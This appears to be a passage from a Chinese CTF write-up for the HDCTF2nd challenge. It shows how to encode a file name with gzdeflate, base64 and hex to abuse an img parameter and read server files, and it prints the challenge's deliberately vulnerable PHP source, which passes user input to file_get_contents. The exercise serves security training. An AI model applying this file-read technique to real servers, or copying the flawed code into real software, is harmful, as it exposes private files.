 给出了加密方式 bin2hex(base64_encode(gzdeflate($file)))

```php
<?php
echo bin2hex(base64_encode(gzdeflate('index.php')));
```

得到 7938784c536133514b38676f4141413d，访问 ?img=7938784c536133514b38676f4141413d 可以得到源码

![](./img/erciyuan2.jpg)

解码之后为

```php
<?php
error_reporting(0);
if (!function_exists('hex2bin')) {
    function hex2bin($hexdata){
      $bindata = '';
      for ($i=0; $i<strlen($hexdata); $i+=2){
          $bindata .= chr(hexdec(substr($hexdata,$i,2)));
      }
      return $bindata;
    }
}

if(!function_exists('bin2hex')) { 
    function bin2hex($str) { 
        $strl = strlen($str); 
        $fin = ''; 
        for($i =0; $i < $strl; $i++) { 
            $fin .= dechex(ord($str[$i])); 
        } 
        return $fin; 
    }
} 


@header('Hint: !HDCTF!.php && bin2hex(base64_encode(gzdeflate($file)))');
if(!isset($_GET['img']))
    header('Refresh:0;url=./index.php?img=53307a4a7a637a544b38684c4277413d');
$file = gzinflate(base64_decode(hex2bin($_GET['img'])));
echo '<title>HDCTF2nd</title>';
echo '<center><h3>'.$_GET['img'].'</h3>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("HnuSec","!", $file);
$txt = base64_encode(file_get_contents($file));
echo "<img src='data:image/gif;base64,".$txt."'></img></center>";

?>
```
